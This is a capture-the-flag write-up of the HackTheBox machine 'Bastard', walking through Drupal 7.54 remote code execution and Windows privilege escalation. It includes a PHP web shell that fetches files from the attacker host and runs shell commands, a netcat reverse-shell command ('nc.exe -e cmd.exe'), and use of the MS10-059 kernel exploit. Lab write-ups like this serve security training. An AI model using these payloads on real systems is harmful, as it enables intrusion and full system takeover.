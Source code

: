 # Bastard [htb](https://app.hackthebox.com/machines/Bastard)
![bastard-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/bastard-01.png)



## Recon


Lets add the target to our `/etc/hosts` file:

![hosts-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/hosts-02.png)


Now we can scan the target with: 

`nmap -sC -sV -A -p- bastard.htb -oN nmap.result`

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/nmap-res-03.png)


We have the following:

+ An IIS v7.5 server on port 80. Seems like the `robots.txt` has some interesting directories. 

+ RPC on ports 135, 49154. 


Lets check the website. 


### HTTP 80

If we open our browsers and navigate towards `http://bastard.htb/`: 

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/site-04.png)

We see a login page, Iv'e tried SQLi, didnt really work for me. Creating an account doenst work, and the password reset feature doesnt work as well.  

If we take a look at the `robots.txt` file nmap found:

![robots-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/robots-05.png)


This `CHANGELOG.txt` file must be containing version numbers. 

![changelog-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/changelog-06.png)


We can see the backend is `Drupal 7.54`. If we use look up vulnerabilities:

`searchsploit drupal 7`

![searchsploit-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/searchsploit-06.png)


There's no shortage, Lets try the highlighted rce exploit. Copy it over with:

`cp /usr/share/exploitdb/exploits/php/webapps/41564.php rce.php`

Once you have the file in your current directory, open it:

![php-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/php-08.png)

Looks like the script is searching for an endpoint in `rest_endpoint`. Lets see if we have this directory:

`http://bastard.htb/rest_endpoint`
 
![endpoint-fail-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/endpoint-fail-09.png)

We dont, but if we go to `http://bastard.htb/rest`: 

![endpoint-success-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/endpoint-success-10.png)

Now we found the rest endpoint location, which means we can probably wxploit this. We just need to update the directory name in the exploit:

![update-exploit-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/update-exploit-11.png)

I updated the endpoint path, filename, and the URL of our target. I also added some php code so we can
upload files and execute commands.

```php
<?php
        if (isset($_REQUEST['fupload'])) {
                file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.20/" . $_REQUEST['fupload']));

        };

        if (isset($_REQUEST['fexec'])) {
                echo "<pre>".shell_exec($_REQUEST['fexec'])."</pre>";

        };

?>
```
 

To run this, you might need to install curl-php with `apt install php-curl`. 

Then we can run the exploit with: 

`php rcp.php`

![execute-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/execute-12.png)


Now that the file has been uploaded, we can execute commands via the URL:

`http://bastard.htb/shell.php?fexec=dir`

![rce-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/rce-13.png)


Lets see if we can upload `nc.exe` to the target and get a reverse shell. 

Copy `nc.exe` to your working directory: 

`cp /usr/share/windows-resources/binaries/nc.exe .`


Start a python web server:

`python3 -m http.server 80`

Use the file upload feature to put in on the target: 

`http://bastard.htb/shell.php?fupload=nc.exe`


![nc-transfer-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/nc-transfer-14.png)


Looks like the file has been saved on the target. 

Lets start the local listener: 

`nc -lnvp 9001` 


Now we want to execute `nc.exe` with: 

`nc.exe -e cmd.exe 10.10.14.20 9001`

I use Burp to URL-encode this. 

If we send the payload in the URL:

`http://bastard.htb/shell.php?fexec=<payload>`


We get a shell: 

![shell-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/shell-15.png)

Lets try to get system! 

## Privilege Escalation

If we run `systeminfo`:

![sysinfo-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/sysinfo-16.png)

We can see we are up againts a 2008 Windows server. If we take this output, save it to a file on our
Kali machine, and run [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) againts it, we can see the following:

![exploit-suggester-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/exploit-suggester-17.png)

MS10-059 is a well known kernel exploit for Windows as it works more often then not, so its worth a shot. 

You can find the exploit [here](https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059%3A%20Chimichurri/Compiled/Chimichurri.exe), download it to your Kali machine. 

Next, start a python web server with: 

`python3 -m http.server 80`

and use the file upload feature we created before to upload the file to the target: 

`http://bastard.htb/shell.php?fupload=Chimichurri.exe`

![dir-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/dir-18.png)

Setup the netcat listener with:

`nc -lnvp 9002`


Finally, execeute the exploit with:

`Chimichurri.exe 10.10.14.31 9002`

Where the IP is your Kali machine, and `9002` the port your listening on. 


Execute, and this should yield you a shell as the system:

![root-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bastard/img/root-19.png)

